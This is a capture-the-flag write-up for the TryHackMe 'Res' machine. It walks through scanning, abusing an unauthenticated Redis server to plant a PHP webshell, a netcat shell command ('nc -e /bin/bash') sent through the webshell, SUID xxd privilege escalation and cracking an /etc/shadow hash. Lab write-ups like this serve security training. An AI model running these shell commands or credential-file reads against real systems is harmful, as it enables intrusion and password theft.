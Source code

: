 # Res - Tryhackme Writeup

Res is a vulnerable machine on TryHackMe. Though this machine, I was introduced to Redis (Remote Dictionary Server). It is the most popular key:value store for use as database, cache or queue. Redis is totally insecure to let it be exposed over network. Redis does not have access control implementation and also it does not support encryption.

# Walkthourgh  - Table of Contents

- [Reconnaissance](#Reconnaissance)
- [Vulnerability Identification](#Vulnerability-Identification)
- [Exploitation](#Exploitation)
- [Post-Exploitation](#Post-Exploitation)

*P.S. In my walkthrough, I have two different IP's for Res vulnerable machine. When I was working through this activity, the time on the vulnerable machine expired and I had to restart it. Hence two IPs (10.10.131.41 and 10.10.47.158).*

## Reconnaissance

Nmap scan to find out the open ports and services

```nmap -sV  -sC -p- 10.10.131.41```

[Nmap screenshot](/images/nmap_scan.png)

From the results we see that we have an Apache web server running on port 80 and Redis 6.0.7  on port 6379.

## Vulnerability Identification

1. Port 80 running Apache web server

Visiting the web application on http://10.10.131.41:80, displayed a standard Apache landing page. Nothing was revealed by examining the source code

[Web Application on Port 80](/images/web_application.png)

Next I ran a directory scan using Dirbuster to look for any hidden directories or files. but no hidden directories was found.

[web directory enumeration screenshot](/images/dirbuster.png)

Moving on to next open port 6379 and enumerating the Redis service.

2. Port 6379 running Redis 6.0.7

After researching on Redis, I found out following issues that could be exploited.
* By default Redis can be accessed without credentials
* Using Redis we could write a webshell, if we know the directory path of the web application.

To access Redis on 10.10.131.41, I installed redis-tools on my kali machine

```sudo apt-get install redis-tools```

[redis_tools installation screenshot](/images/redis_tools.png)

[redis connect screenshot](/images/connect_redis.png)

[redis info screenshot](/images/info_redis.png)

Checking the webpage, I found that it works.

[Webshell execution screenshot](/images/webshell_execution.png)

Make a netcat connection to the attacker IP

```10.10.131.41/shell.php?c=nc -e /bin/bash -lnvp 8888```

[access screenshot](/images/user.png)

###Privilage Escalation
[suid screenshot](/images/xxd_0.png)
[xxd screenshot](/images/xxd.png)

local user password hash from /etc/shadow file
[password hash screenshot](/images/shadow.png)

John the ripper to crack the password
[password cracked screenshot](/images/john.png)

Root access
[sudo screenshot](/images/root_access.png)







